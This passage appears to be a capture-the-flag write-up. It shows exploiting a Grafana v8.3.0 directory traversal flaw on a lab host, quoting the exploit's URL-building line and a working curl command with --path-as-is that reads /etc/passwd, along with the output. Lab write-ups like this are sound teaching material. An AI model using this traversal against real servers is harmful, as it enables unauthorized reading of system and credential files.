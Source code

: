 We're presented with a **Grafana** login page and notice the version is **v8.3.0 (914fcedb72)**. Looking up exploits shows that it's vulnerable to a **directory traversal attack**:

![](images/kubevery2.png)

Reading through the exploit code shows us that it's sending the following:

```py
url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```

It also lists all of the plugins with the first one being **alertlist**, so I decide to just curl the request over.

Note, make sure to use **--path-as-is** or the request will not work. From the curl man page:

```bash
--path-as-is
              Tell  curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but
              with this option set you tell it not to do that.

              Example:
               curl --path-as-is https://example.com/../../etc/passwd
```

`curl http://10.10.191.70:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is`

```bash
root:x:0:0:root:/root:/bin/ash

--- SNIP ---

grafana:x:472:0:<REDACTED>:/home/grafana:/sbin/nologin 
```
